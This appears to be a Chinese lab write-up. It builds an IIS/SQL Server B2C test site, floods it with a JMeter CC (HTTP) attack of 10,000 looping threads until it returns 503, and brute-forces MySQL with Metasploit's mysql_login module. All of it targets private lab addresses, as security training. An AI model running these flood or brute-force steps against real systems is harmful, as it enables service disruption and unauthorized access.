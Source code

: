 ## 1、网站搭建

### IIS安装

服务器：win2003

**开始**——**控制面板**——**添加与删除程序**

选择**添加/删除windos组件**，

选择**应用程序服务器**

点击下一步安装。

![image-20240624170510388](https://s2.loli.net/2024/06/24/IeW7CGfvBRbUDEQ.png)

打开IIS,安装成功

![image-20240624170633378](https://s2.loli.net/2024/06/24/EZ24esvtrjla6bN.png)

### sql server安装

#### 安装

使用iso镜像"`SQL_Svr_Enterprise_Edtn_2008_ChnSimp.ISO`"安装**SqlServer2008**

加载镜像自动执行弹出安装界面



选择安装：安装全新的sqlserver

![image-20240726100713720](../../../../repo/assets/4、网站搭建及CC攻击，Mysql暴力破解/image-20240726100713720.png)

功能**全选**安装，取消勾选**sqlserver联机丛书**

![image-20240726100622534](../../../../repo/assets/4、网站搭建及CC攻击，Mysql暴力破解/image-20240726100622534.png)

![image-20240726100543246](../../../../repo/assets/4、网站搭建及CC攻击，Mysql暴力破解/image-20240726100543246.png)

#### 身份验证方式——混合

```
WIN2003-4D71C00
sa
abc123!@#
```

![image-20240726101224122](../../../../repo/assets/4、网站搭建及CC攻击，Mysql暴力破解/image-20240726101224122.png)

![image-20240726101252116](../../../../repo/assets/4、网站搭建及CC攻击，Mysql暴力破解/image-20240726101252116.png)

![image-20240726101331006](../../../../repo/assets/4、网站搭建及CC攻击，Mysql暴力破解/image-20240726101331006.png)

#### 登录

![image-20240624183134824](https://s2.loli.net/2024/06/24/1vQogFsVXa3Mdn4.png)

#### 配置sqlserver服务

1、打开"**SQL Server 配置管理器**",**sql server网络配置**下的**MSSQLSERVER的协议**里的`Named Pipes`要启动

``![image-20240624183333377](https://s2.loli.net/2024/06/24/cYv1aEApyoeTq2s.png)

2、**SQL Native Client 10.0配置**的**客户端协议**的`TCP/IP`启动

![image-20240624183654523](https://s2.loli.net/2024/06/24/2nfq5UWJD1rmaKO.png)

3、重启sqlserver服务器

**SQL Server服务**里的**SQL Server(MSSQLSERVER)**右键**重启启动**，加载配置。

![image-20240624183801708](https://s2.loli.net/2024/06/24/2HbCoDucfVzNBhv.png)

### b2c网站搭建

#### 1、添加网页源码

使用iso镜像"`b2c.iso`"中的3个文件，添加到分好盘的E盘。

赋予**user**用户组完全控制的权限，添加**everyone**用户权限。

![image-20240624172026375](https://s2.loli.net/2024/06/24/DPLraHouSwefZby.png)

IIS将**默认网站禁用**，防止占用80端口

网站右键**添加网站**

```
描述：b2c
网站IP地址：192.168.70.6
网站TCP端口：80
网站根路径：E:\CE.Project.Web
网站访问权限：读取 运行脚本 执行 写入 浏览
```

![image-20240624173256054](https://s2.loli.net/2024/06/24/kDqCgY35NjMTAzF.png)

#### 2、导入数据库

sqlserver选择**数据库**，右键**附加**，导入`b2c.MDF`，默认会将日志一并导入。

![image-20240624173141957](https://s2.loli.net/2024/06/24/rQFvkt5yO6HYsuM.png)

#### 3、修改网站配置

##### 1.修改ASP版本

安装"`dotNetFx40_Full_x86_x64.exe`"。

IIS网站右键**属性**

选择ASP.NET,将ASP2.0改成**4.0**

##### 2.修改`web.config`文件

`CTRL+H`：将"`AA`"替换为主机名"`WIN2003-4D71C00`"

#### 4、打开浏览器浏览

http://192.168.70.6/Default.aspx

![image-20240624181544110](https://s2.loli.net/2024/06/24/ykR18mzdfo29OrM.png)



## 2、CC攻击流程

### 1、**测试计划**右键添加**线程组**

![image-20240624160942317](https://s2.loli.net/2024/06/24/q2meTtSUzkCsOrR.png)

### 2、线程组右键添加**取样器**，**HTTP请求**

![image-20240624160901191](https://s2.loli.net/2024/06/24/mbs4QCKjSPJghpi.png)

### 3、线程组添加**监听器**，**查看结果树**

![image-20240624161652499](https://s2.loli.net/2024/06/24/c13nodztPFRTlJZ.png)

### 4、HTTP请求设置

```
名称：b2c网站-CC攻击
协议：http
服务器IP：192.168.70.6
端口号：80
HTTP请求：GET
路径：/Default.aspx
内容编码：utf8
```

![image-20240624161827926](https://s2.loli.net/2024/06/24/JIHUrkNylMBYQDi.png)

### 5、线程组配置

```
线程数：10000
Ramp-Up时间：0
循环次数：永远
```

含义：在0秒发送1万个请求，一直循环发送。

![image-20240624160453107](https://s2.loli.net/2024/06/24/XAGjwqzv6sManIK.png)

### 6、查看结果

**网页全红**，显示"`server is too busy`",响应包返回`503`

![image-20240624163944396](https://s2.loli.net/2024/06/24/gly2CshiaIe3HXb.png)

![image-20240624163753679](https://s2.loli.net/2024/06/24/CaZJ9YMXkWEKb8y.png)

## 3、mysql暴力破解

### msf 命令

```
msfconsole
search mysql_login
use 0
show options
set rhost 192.168.70.10
set pass_file /root/tools/passwd/Pass.txt
run
```

### 配置信息

![image-20240624164344246](https://s2.loli.net/2024/06/24/ergZPXBbKviSo8h.png)

### 爆破结果

![image-20240624155531753](https://s2.loli.net/2024/06/24/hZTJCSp2wlkuDW9.png)